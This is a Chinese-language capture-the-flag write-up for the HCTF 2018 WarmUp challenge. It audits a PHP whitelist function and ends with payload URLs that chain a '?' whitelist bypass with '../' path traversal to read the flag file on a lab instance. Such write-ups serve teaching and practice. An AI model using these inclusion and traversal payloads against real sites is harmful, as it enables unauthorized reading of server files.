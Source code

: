 # ctf-

[HCTF 2018]WarmUp原题复现

1. 打开题目环境，发现什么都没有，那么__查看源代码__

![image](https://user-images.githubusercontent.com/76896357/116090405-6903c900-a6d6-11eb-9664-2195eee0f066.png)

2. 打开那个文件，发现是要代码审计
![image](https://user-images.githubusercontent.com/76896357/116090877-e7f90180-a6d6-11eb-98b2-625dc09e5db7.png)


!empty($_REQUEST['file'])  # 要求file变量不能为空

is_string($_REQUEST['file'])    # 要求字符串变量是字符型

emmm::checkFile($_REQUEST['file'])  # 调用emmm类里面的checkFile函数

3. 审查函数代码

看见了新的文件，打开看一下

![image](https://user-images.githubusercontent.com/76896357/116103473-32cc4680-a6e2-11eb-8117-4e44d42635b2.png)


```
class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];    # 定义数组
            if (! isset($page) || !is_string($page)) {                   # 检查参数存不存在，并且是不是字符串
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {                          # 如果参数被包括在数组内部，直接返回，这里可以知道参数是不能直接包含上面两个文件的
                return true;
            }

            $_page = mb_substr(                                         # 构建$_page变量，截取$page从开头到?的字母
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {                         # 如果匹配到白名单，返回true
                return true;
            }

            $_page = urldecode($page);                                  # 对截取的字符串解码
            $_page = mb_substr(                                         # 看看解码后是否存在？
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {                        # 存在就返回
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }
```
![image](https://user-images.githubusercontent.com/76896357/116098860-fac30480-a6dd-11eb-9c99-6b95c68f063c.png)


现在可以构建payload:

```
http://eec73ef7-5280-4697-b5ec-56d5a6b8bfb3.node3.buuoj.cn/index.php?file=source.php?/ffffllllaaaagggg.php
```
发现不行，猜测文件可能是在根目录，又发现，下面图片的地址。。。

![image](https://user-images.githubusercontent.com/76896357/116111450-3dd6a500-a6e9-11eb-8959-a34cf8b970f7.png)


试试吧，就不停的../吧！！！

```
http://eec73ef7-5280-4697-b5ec-56d5a6b8bfb3.node3.buuoj.cn/index.php?file=hint.php?/../../../../../ffffllllaaaagggg
```

5个../就行，多了也可以

![image](https://user-images.githubusercontent.com/76896357/116111325-1f70a980-a6e9-11eb-939d-2c5bd24dfc25.png)

成功！！！

